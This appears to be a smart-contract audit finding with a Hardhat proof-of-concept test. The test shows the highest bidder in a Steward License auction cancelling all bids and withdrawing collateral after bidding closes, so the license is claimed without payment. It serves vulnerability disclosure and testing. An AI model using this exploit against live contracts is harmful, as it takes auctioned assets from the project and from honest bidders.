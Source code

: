 ## Impact

The highest bidder can claim the Steward License for free, bypassing the intended auction process.

## Code Snippet

#### PoC

```solidity
    it('Cancel All bid will cancel out the highest bidder', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);
      
      const bidAmount2 = ethers.utils.parseEther('1.2');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);
      
      // bidder 1 place the bid for 1.1 ether + fee
      console.log("\t\t> Bidder1 (%s) bids for: \n\t\t\t> Amount: %s", bidder1.address ,bidAmount1.toString(), "\t\t Collateral Deposited: ", collateralAmount1.toString());
      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      // bidder 2 place the bid for 1.2 ether + fee
      console.log("\t\t> Bidder2 (%s) bids for: \n\t\t\t> Amount: %s", bidder2.address, bidAmount2.toString(), "\t\t Collateral Deposited: ", collateralAmount2.toString());
      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount2, { value: collateralAmount2 });
      

      console.log("\t\t> Ether Available in Auction contract after 2 bids: ", (await ethers.provider.getBalance(instance.address)).toString());

      // increase the time by 100 seconds so that it can be closed
      console.log("\t\t> Moving time to auction end");
      await time.increase(100);

      // should not be able to bid after the auction is closed
      const bidAmount3 = ethers.utils.parseEther('1.3');
      const feeAmount3 = await instance.calculateFeeFromBid(bidAmount3);
      const collateralAmount3 = feeAmount3.add(bidAmount3);
      await expect(instance.connect(bidder1).placeBid(0, bidAmount3, { value: collateralAmount3 })).to.be.reverted

      // before closing the auction, bidder 2 who is the highest bidder will cancel all the bids
      console.log("\t\t> Bidder2 cancels all the bids");
      let balanceBeforeCancel = await ethers.provider.getBalance(bidder2.address);
      await instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0);
      let balanceAfterCancel = await ethers.provider.getBalance(bidder2.address);

      console.log("\t\t> Ether Available in Auction contract after bidder2 cancels And withdraws his bid: ", (await ethers.provider.getBalance(instance.address)).toString());
```